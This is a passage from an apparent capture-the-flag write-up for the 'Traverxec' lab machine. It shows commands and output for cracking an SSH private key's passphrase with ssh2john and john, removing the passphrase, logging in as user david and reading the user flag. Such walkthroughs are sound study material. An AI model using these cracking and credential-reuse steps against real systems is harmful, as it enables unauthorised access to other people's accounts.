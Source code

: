     seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
    tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
    KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
    RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
    HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
    Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec



### Crack the Key

Now I'll use `ssh2john.py` and `john` to crack the password on the SSH
key:



    root@kali# /opt/john/run/ssh2john.py home/david/.ssh/id_rsa > id_rsa.john

    root@kali# /opt/john/run/john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    hunter           (home/david/.ssh/id_rsa)
    1g 0:00:00:03 DONE (2019-11-22 13:20) 0.3289g/s 4717Kp/s 4717Kc/s 4717KC/s     1990..*7¡Vamos!
    Session completed



I like to create a copy that's not password protected for future use:



    root@kali# openssl rsa -in home/david/.ssh/id_rsa -out ~/id_rsa_traverxec_david 
    Enter pass phrase for home/david/.ssh/id_rsa:
    writing RSA key



### Shell over SSH

Now I can connect over SSH as david:



    root@kali# ssh -i ~/id_rsa_traverxec_david david@10.10.10.165
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
    Last login: Fri Nov 22 04:55:08 2019 from 10.10.14.59
    david@traverxec:~$



And grab `user.txt`:



    david@traverxec:~$ cat user.txt 
    7db0b484************************
